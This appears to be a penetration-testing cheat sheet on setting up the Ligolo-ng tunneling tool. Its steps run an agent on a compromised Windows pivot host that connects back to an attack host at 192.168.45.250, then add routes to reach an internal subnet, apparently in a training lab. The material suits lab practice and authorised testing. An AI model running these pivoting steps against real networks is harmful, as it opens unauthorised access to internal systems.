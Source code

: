 ## Ligolo-ng
### Setting up Ligolo-ng C2
#### Upload agent.exe to pivot host
#### Create a tun interface on the Proxy Server (C2)
```Shell
ip tuntap add user [your_username] mode tun ligolo
```

```Shell
ip link set ligolo up
```
#### Run ligolo proxy file
```Shell
./proxy -selfcert
```
Output:
```
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

Made in France ♥ by @Nicocha30!

ligolo-ng » 
```
#### Execute agent on Windows host
```PowerShell
.\agent.exe -connect 192.168.45.250:11601 -ignore-cert
```
Enter the IP of your attack host and the port ligolo-ng is listening on 
#### Specify session on ligolo
```ligolo-ng
session
1
```
#### Add a pivot
```Shell
ip route add 172.16.116.0/24 dev ligolo
```
(add network you want to be able to pivot to)
#### Confirm pivot has been added
```Shell
ip route list
```
Output:
```
default via 192.168.113.2 dev eth0 
10.11.0.0/16 via 192.168.45.254 dev tun0 
172.16.116.0/24 dev ligolo scope link 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
172.18.0.0/16 dev br-48c8e5665603 proto kernel scope link src 172.18.0.1 linkdown 
192.168.45.0/24 dev tun0 proto kernel scope link src 192.168.45.250 
192.168.113.0/24 dev eth0 proto kernel scope link src 192.168.113.129 
192.168.226.0/24 via 192.168.45.254 dev tun0 
```
#### Start tunnel
```ligolo-ng
session
```